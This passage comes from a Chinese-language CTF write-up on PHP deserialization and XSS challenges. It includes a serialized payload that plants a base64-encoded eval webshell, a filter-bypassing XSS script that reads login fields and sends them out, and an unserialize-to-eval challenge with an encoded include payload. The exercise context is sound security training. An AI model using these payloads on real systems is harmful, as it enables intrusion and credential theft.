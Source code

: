 ```php
$object = array("path"=>"PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg");
$path = '111';
$a->cache = array($path=>$object);
$a->complete = '2';
echo urlencode(serialize($a));
?>
```
解法3
上传.user.ini加载图片

## 0x02 [GWCTF 2019]mypassword
通过查看页面源码发现login.js会加载session中的密码，然后获取一下就可以了，页面源码里面有黑名单检测，他只替换一次，中间插入法就可以绕过了。给个payload，但是没打通
```js
<inpcookieut type="text" name="username"></inpcookieut>
<inpcookieut type="text" name="password"></inpcookieut>
<scricookiept scookierc="./js/login.js"></scricookiept>
<scricookiept>
var uname=docucookiement.getElemcookieentsByName("username")[0].value;
var psw=docucookiement.getElemcookieentsByName("password")[0].value;
docucookiement.location(url+"?a="+uname+psw);
</scricookiept>
```
## 0x03 [极客大挑战 2020]Greatphp
源码
```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```
要绕过这里的md5和sha两次验证，我的第一想法是数组绕过，但是这里数组绕过了，也不能成功的eval，因为他的参数只能是String类型的，所以我们就必须借助其他的类，剩下的就是原生类、之前做过有tostring的原生类，就是Error。还有Soap的ssrf(__call方法)就不多说了，搞payload
```php
<?php
class SYCLOVER {
    public $syc;
    public $lover;
}
$c = new SYCLOVER();
$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
```